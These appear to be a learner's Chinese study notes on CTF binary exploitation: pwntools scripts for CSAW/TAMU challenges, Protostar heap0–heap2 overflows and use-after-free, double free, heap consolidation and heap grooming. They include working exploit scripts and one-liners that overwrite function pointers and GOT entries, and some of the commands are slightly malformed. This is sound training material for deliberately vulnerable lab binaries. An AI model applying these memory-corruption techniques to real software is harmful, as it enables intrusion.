



内容来自：

[https://exploit.education/protostar/heap-zero/](https://exploit.education/protostar/heap-zero/)

[https://guyinatuxedo.github.io/25-heap/index.html](https://guyinatuxedo.github.io/25-heap/index.html)

---

# Pwotools

## send和sendline

参考文章：

https://www.cnblogs.com/ZIKH26/articles/15855666.html

解释的真好。


# GNU Binutils

https://www.gnu.org/software/binutils/

二进制工具包


# Beginner Reversing

grep指令：https://www.runoob.com/linux/linux-comm-grep.html

## CSAW 2019 beleaf

我看不懂你的加密，但我知道你是ascii码，所以我就按照你的加密，破解。


# 04-bof_variable

记录一下：

## csaw18_boi

有这样一段代码：

```c
  read(0, buf, 24uLL);
  if ( HIDWORD(v5) == 0xCAF3BAEE )
    run_cmd("/bin/bash");
  else
    run_cmd("/bin/date");
  return 0;
```

HIDWORD是说，取高字节部分。

> \#define LOWORD(l)           ((WORD)((DWORD_PTR)(l) & 0xffff))
> \#define HIWORD(l)           ((WORD)((DWORD_PTR)(l) >> 16))
> 这是windef.h头文件中对宏LOWORD和HIWORD的定义。
> 作用分别是取出无符号长整型参数的高16位和低16位。
> 因为一个长整型占32位，其中高低16位的值可能有不同的意义，需要通过这2个宏分别取出来使用。取出来的结果是一个无符号短整型的值。
> 其原理正如定义那样，取低16位的宏LOWORD使用按位与操作符与数字0xffff运算，而数字0xffff是一个低16位全为1的数字，那么对其位与操作可以得到参数的低16位。
> 而取高16位的宏HIWORD则更简单，只需将参数右移16位，剩下的就是原高16位的值了。
>
> 取自百度

右移分为逻辑右移和算数右移。全零操作是逻辑右移。

exp:

```python
from pwn import *
p=process('./boi')
p.recvuntil("Are you a big boiiiii??\n")
payload=b'a'*0x10+p32(0x0)+p32(0xCAF3BAEE)
p.send(payload)
p.interactive()
```


## tamu19_pwn1

```c
  if ( strcmp(s, "Sir Lancelot of Camelot\n") )
  {
    puts("I don't know that! Auuuuuuuugh!");
    exit(0);
  }
```

绕过if判断，就要使

- strcmp(s, "Sir Lancelot of Camelot\n")返回0。

什么时候返回0？当

- s="Sir Lancelot of Camelot\n"

## tw17_justdoit

**NUL** 被用于C语言中，表示字符串的结束，当一个字符串中间出现 NUL 时，就意味着这个是一个字符串的结尾了。**NUL** 是ASCII 字符集中 '\0' **字符**的名字，它的字节模式为全 0。

>  NULL是一个宏，它在几个标准头文件中定义，
>
> 0是一个整型常量，
>
> '\0'是一个字符常量，
>
> 而NUL是一个字符常量的名字。这几个术语都不可互换。
>
>  1、NULL用于表示什么也不指向，也就是空指针((void *)0)
>
>  2、0可以被用于任何地方，它是表示各种类型零值的符号并且编译器会挑出它
>
>  3、'\0'应该只被用于结束字符串
>
>  4、NUL没有被定义于C和C++，它不应该被使用除非你自己定义它，像：#define nul '\0'

```c
  if ( !strcmp(s, PASSWORD) )
    v6 = success_message;
  puts(v6);
```

我们找一找PASSWORD：

```c
.rodata:080487C8 aPSsw0rd        db 'P@SSW0RD',0      
```

所以我们应该输入P@SSW0RD吗？

不对，是P@SSW0RD加上NUL，也就是**\0**。

不然字符串比较，到最后一个，你有\0，我没有\0，那这也算比较失败。当然，C语言字符串我还没有研究通透，暂且为止。

exp:

```python
from pwn import *
p=process('./just_do_it')
context.log_level='debug'
p.recvuntil("Input the password.\n")
flag=0x0804A080
payload=b'a'*(0x20-0xc)+p32(0x0804A080)
p.sendline(payload)
p.interactive()
```

这是sendline：


这是send：



明显能够看到差距，sendline多了一个**\a**。

send的话，在

```c
[*] Switching to interactive mode
```

之后，还要自己按一下回车键才可以回显。


# Linux

Linux grep 命令用于查找文件里符合条件的字符串。

Binutils：


# Python

```python
#十进制转换成ascii，使用chr函数
>>> chr(61)
'='
>>> chr(0x61)
'a
>>> print(type(0x61))
<class 'int'>
>>> print(type(61))
<class 'int'>
>>>
```

说明0x61，61都被认为是整形。


## Python 数据结构

### 序列

python包含6个序列的内置类型：

- 列表
- 元组
- 字符串
- Unicode字符串
- buff对象
- xrange对象

**最常见的是列表和元组**。


| 列表                   | 元组                   |
| ---------------------- | ---------------------- |
| list=[15,69,"love"]    | tuple=(15,69,58,76)    |
| 可修改元素             | 不可修改元素           |
| 列表转元组：tuple(seq) | 元组转列表： list(seq) |


列表：

```python
>>> list=[15,69,"love"]
>>> print(type(list))
<class 'list'>
>>>
```


元组：

```python
>>> tuple=(15,69,58,76)
>>> print(tuple)
(15, 69, 58, 76)
>>> print(type(tuple))
<class 'tuple'>
>>>
```


# Double free

这个其实就是，一个chunkfree两次，然后我们再次分配，就会导致分配两个一样的指针。

然后我们再猜free其中一个指针。

    ptr0 = malloc(0x30);

    ptr1 = malloc(0x30);

    ptr2 = malloc(0x30)

可以看到：

Chunk3: @ 0x557c30676670     contains: 22222222

Chunk4: @ 0x557c306766b0     contains: 11111111

Chunk5: @ 0x557c30676670     contains: 22222222

然后呢，：

    free(ptr0);

    free(ptr1);

    free(ptr0);

接着

    ptr3 = malloc(0x30);

    ptr4 = malloc(0x30);

    ptr5 = malloc(0x30);

可以看到：

Chunk3: @ 0x557c30676670     contains: 22222222

Chunk4: @ 0x557c306766b0     contains: 11111111

Chunk5: @ 0x557c30676670     contains: 22222222


然后我们free chunk3，可以看到：

Chunk3: @ (nil)

Chunk5: @ 0x557c30676670

也就是虽然这个0x557c30676670指向的chunk被free了，但我们其实还有指针指向这片内存区域，并且这个chunk已经位于bin里面了。

所以我们可以利用chunk5修改这个chunk的内容，修改一个已经位于bin里面的chunk。


---


# Heap Consolidation
这个什么意思呢？

其实就是，分配了三个chunk，0,1,2,3然后free第0个，接着将第2个chunk的prev_size修改为这三个chunk之和，然后将size位的prev_inuse位修改为0。

接着，我们free第2个chunk，0,1,2三个chunk会被合并。

但其实第1个并没有被free。

这样，系统会认为这一片内存都可以free，被合并在一起。

然后，我们再次申请分配内存。

申请chunk4，5，其中，4的大小和0一样，5的大小和1一样。

这样，我们就会得到两个指针，其中4的指针和原来的0一样，

5的指针和1的指针一样。

但是，chunk1还没有被free呢？我们就得到了两个指针都指向相同的一片内存。

接着，我们可以free chunk1，然后，我们可以通过修改chunk5来修改一个位于bin里面的chunk。


# heap0
这个蛮简单的，修改指针内容，指向shellcode。

源码：

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

其实就是，在堆里面分配了两片内存，**这两片内存是相邻的**。由两个指针指向。

```c
d->64个char的内存

f->一个指针
```

然后呢，我们的参数会被拷贝到d指向的内存处。这里存在堆溢出。

为什么是堆？

因为我们拷贝这个操作并不是在栈里面操作的，而是在堆里面操作的。

漏洞利用就是，在拷贝时，利用堆溢出，将f的指针修改为winner的地址。

这是ida的展示：	


关于偏移的计算：

其实程序执行以下就知道了：

```bash
data is at 0x8f01160, fp is at 0x8f011b0
```

相减就知道了。

然后就是执行指令：

```bash
./heap0 python -c 'print "0"*0x50 + "\xb6\x84\x04\x08"'
```

# heap1

源码：

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct internet {
  int priority;
  char *name;
};

void winner()
{
  printf("and we have a winner @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  struct internet *i1, *i2, *i3;

  i1 = malloc(sizeof(struct internet));
  i1->priority = 1;
  i1->name = malloc(8);

  i2 = malloc(sizeof(struct internet));
  i2->priority = 2;
  i2->name = malloc(8);

  strcpy(i1->name, argv[1]);
  strcpy(i2->name, argv[2]);

  printf("and that's a wrap folks!\n");
}
```

gdb：


深入查看：


这是一件很有趣的事。

两个结构体，大小无所谓。

没有开启pie，所以堆区的地址也是固定的。

每一个结构体，使用了两次malloc。所以最后其实是四次malloc。这也正是我在heap看到的：

显然我们看到了这四个chunk的地址。然后我们就可以利用堆溢出了。

本题的关键是：

第一次输入，修改第二次输入的地址，这样我们就可以在第二次在任意位置写入我们想要写入的内容。

第二次输入，我们就实现任意写了。

所以劫持puts的got表，因为在实现任意写后它还会执行一次。

第一次输入：

0x20+puts的got地址

第二次输入：

后门函数的地址

执行指令：

```bash
./heap1 python -c 'print "0"*20 + "\x18\xa0\x04\x08" + " " + "\xb6\x84\x04\x08"'
```


---


# heap2
我算看明白了。

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);

      if(fgets(line, sizeof(line), stdin) == NULL) break;

      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```

程序分为四个功能。

第一个，输入auth，可以理解为用户名

第二个，reset，free掉这个auth指针

第三个，service ，将line+7指针指向的内容拷贝过来，拷贝到service 这个指针处

第四个，进行login，判断auth指针指向的结构体auth的元素auth值是否为0，是0就说你输入密码，不是0就说ok。

这题其实就是uaf，先创建这个auth指针，完了给它free了，但是并不将指针置零。所以我们再次执行service指令，就会创建一个chunk，并且和刚才那个auth指针是一样的。

所以我们修改service指针指向的内容，其实就是修改auth指针指向的内容。。

然后将内容全部写成1就可以了。

---


这道题目其实蛮奇怪的，就是对于程序而言。

堆区分配的内存其实是有一些问题的。

程序执行：

```bash
wanger@wanger-virtual-machine:~/桌面/nightmare-master/modules/24-heap_overflow/ptostar_heap2$ ./heap2
[ auth = (nil), service = (nil) ]
auth 
[ auth = 0x555555757a80, service = (nil) ]
service 
[ auth = 0x56445e371a80, service = 0x56445e371aa0 ]
```

其实auth和service的**相对地址**是不会变的。

这里也有个问题，就是在gdb时，auth和service的地址是不会变的。

```bash
[ auth = 0x555555757a80, service = 0x555555757aa0 ]
```

但是程序运行时，auth和service的地址是会变的。

我们看一下gdb，先让auth和service都有地址。

然后进入heap看一下，你会发现，heap好像是不对的:

```bash
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x555555757000
Size: 0x251

Allocated chunk | PREV_INUSE
Addr: 0x555555757250
Size: 0x411

Allocated chunk | PREV_INUSE
Addr: 0x555555757660
Size: 0x411

Allocated chunk | PREV_INUSE
Addr: 0x555555757a70
Size: 0x21

Allocated chunk | PREV_INUSE
Addr: 0x555555757a90
Size: 0x21

Top chunk | PREV_INUSE
Addr: 0x555555757ab0
Size: 0x20551
```

那两个0x21的就是我们这两个chunk。

```bash
pwndbg> x/40x 0x555555757a70
0x555555757a70:	0x00000000	0x00000000	0x00000021	0x00000000
0x555555757a80:	0x0000000a	0x00000000	0x00000000	0x00000000
0x555555757a90:	0x00000000	0x00000000	0x00000021	0x00000000
0x555555757aa0:	0x00000a20	0x00000000	0x00000000	0x00000000
0x555555757ab0:	0x00000000	0x00000000	0x00020551	0x00000000
0x555555757ac0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757ad0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757ae0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757af0:	0x00000000	0x00000000	0x00000000	0x00000000
0x555555757b00:	0x00000000	0x00000000	0x00000000	0x00000000
```

显然，auth的大小应该是0x20+int

```c
struct auth {
  char name[32];
  int auth;
};
```

但这里我们可以看到，service的chunk却是位于auth**本来应该的chunk**内部。也就是说，auth->auth这个int类型数据的空间，就是从0x555555757aa0开始，但是我们看到，一旦service被创建，0x555555757aa0这里就有一个非零值。

---


那么我们直接创建auth和service就实现了让auth->auth为非零值了。

```bash
wanger@wanger-virtual-machine:~/桌面/nightmare-master/modules/24-heap_overflow/ptostar_heap2$ ./heap2
[ auth = (nil), service = (nil) ]
auth 
[ auth = 0x5641de468a80, service = (nil) ]
service 
[ auth = 0x5641de468a80, service = 0x5641de468aa0 ]
login
you have logged in already!
[ auth = 0x5641de468a80, service = 0x5641de468aa0 ]
```

这就很是奇怪了。

---

还有人说，可以先创建auth，然后给它free了，但是auth仍旧指向这个位置，接着我们创建service，复制任值都可以，然后service的地址和auth地址就会一样。算是一个uaf。

但实验的话有不对，还不能算会uaf，因为都不是同类型的指针，大小不能确定。

这题太扯了。

---


# Unlink explannation

重学C语言指针，梦回大一。

看了一上午unlink，什么也没看明白，吐了。


# Heap Grooming

这个其实没太多的意思。

## SwampCTF'19: Heap Golf

这个题目能解出来。

```c
[*] '/home/wanger/桌面/nightmare-master/modules/26-heap_grooming/swamp19_heapgolf/heap_golf1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

什么意思呢？

就是，没有开启pie，堆区地址不变。

我们有两种选择：

1，输入-2，然后所有的chunk都被free了，然后紧接着，又分配一个chunk。大小为0x20。

2，输入一个数字，按照这个数字分配chunk。每分配一个chunk，它的值都会加1。

ida:

```ida
  target = malloc(0x20uLL);
  write(0, "target green provisioned.\n", 0x1AuLL);
  ptr[0] = target;
```

target的指针固定了，就是第一个chunk，不会变了。

至于 ptr数组以后指向谁，都跟target无关。所以我们要做的就是，通过free，malloc来使第一个chunk的值为4。

分配了五个chunk：



是吧，后面的chunk每个值都是+1。

所以我们就是让第一个chunk值为4.

怎么做：无非接着free所有的chunk，然后再分配。由于是在fastbin里面，后进先出，所以再分配的五个chunk就会跟原来相比倒过来，就好了：


再分配：


